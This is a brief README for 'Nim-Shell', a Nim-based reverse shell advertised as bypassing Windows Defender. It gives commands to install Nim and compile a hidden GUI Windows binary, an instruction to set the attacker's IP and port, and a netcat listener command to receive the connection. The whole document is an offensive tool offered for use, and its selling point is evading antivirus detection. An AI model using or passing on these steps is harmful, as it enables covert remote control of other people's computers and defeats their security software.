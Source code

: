 # Nim-Shell
Reverse shell that can bypass windows defender detection

# 𝗜𝗡𝗦𝗧𝗔𝗟𝗟𝗔𝗧𝗜𝗢𝗡 𝗜𝗡𝗦𝗧𝗥𝗨𝗖𝗧𝗜𝗢𝗡𝗦
    $ apt install nim

# Compilation
nim c -d:mingw --app:gui nimshell.nim


<img src="https://github.com/emrekybs/nim-shell/blob/main/1.png">

Change the IP address and port number you want to listen to in the nimshell.nim file according to your device.

<img src="https://github.com/emrekybs/nim-shell/blob/main/2.png">

# and listen

     $ nc -nvlp 4444
